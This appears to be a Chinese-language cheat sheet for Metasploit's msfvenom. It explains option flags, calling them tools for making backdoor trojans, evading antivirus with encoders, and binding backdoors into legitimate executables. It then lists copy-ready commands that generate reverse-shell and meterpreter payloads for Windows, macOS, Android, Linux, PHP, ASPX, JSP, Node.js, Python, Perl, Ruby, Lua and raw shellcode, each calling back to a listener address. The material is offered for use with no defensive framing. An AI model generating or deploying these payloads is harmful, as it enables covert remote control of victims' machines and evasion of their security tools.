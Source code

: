 Kali中的 msfvenom 取代了msfpayload和msfencode，常用于生成后门木马

msfpayload是MSF攻击荷载生成器，用于生成shellcode和可执行代码。
msfencode是MSF编码器。

# 一 、msfvenom 常用参数
-l
列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all

-p
指定需要使用的payload(攻击荷载)。

-f
指定输出格式

Executable formats:Asp、aspx、aspx-exe、axis2、dll、elf、elf-so、exe、exe-only、exe-service、exe-smallhta-psh、jar、jsp、loop-vbs、macho、msi、msi-nouac、osx-app、psh、psh-cmd、psh-net、psh-reflection、python-reflection、vba、vba-exe、vba-psh、vbs、war；

Transform formats:base32、base64、bash、c、csharp、dw、dword、hex、java、js_be、js_le、num、perl、pl、powershell、ps1、py、python、raw、rb、ruby、sh、vbapplication、vbscript；

-e
指定需要使用的encoder（编码器）编码免杀。

-a
指定payload的目标架构

选择架构平台:x86 | x64 | x86_64
Platforms:windows, netware, android, java, ruby, linux, cisco, solaris, osx, bsd, openbsd, bsdi, netbsd, freebsd, aix, hpux, irix, unix, php, javascript, python, nodejs, firefox, mainframe

-o
保存payload文件输出。

-b
设定规避字符集，比如: '\x00\xff'避免使用的字符

-n
为payload预先指定一个NOP滑动长度

-s
设定有效攻击荷载的最大长度生成payload的最大长度，就是文件大小。

-i
指定payload的编码次数

-c
指定一个附加的win32 shellcode文件

-x
指定一个自定义的可执行文件作为模板
例如：原先有个正常文件normal.exe 可以通过这个选项把后门捆绑到这个程序上面。

-k
保护模板程序的动作，注入的payload作为一个新的进程运行
例如：原先有个正常文件normal.exe 可以通过这个选项把后门捆绑到这个程序上面。

-v
指定一个自定义的变量，以确定输出格式

---

# 二、各平台生成payload命令

Windows
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp
LHOST=192.168.3.33 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.exe

Mac
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.3.33 LPORT=4444 -f macho -o payload.macho

Android
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567  -o payload.apk

Powershell
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=192.168.1.1 LPORT=8888 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

Linux
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f elf -o payload.elf

php
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.1  LPORT=8888  -f raw > shell.php

aspx
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8888 -f aspx -o payload.aspx

JSP
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.jsp

war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw - o payload.war

nodejs
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.js

python
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.py

perl
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.pl

ruby
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.rb

lua
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.lua

windows shellcode
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

linux shellcode
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

mac shellcode
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp  LHOST=192.168.1.1  LPORT=4567 -f c
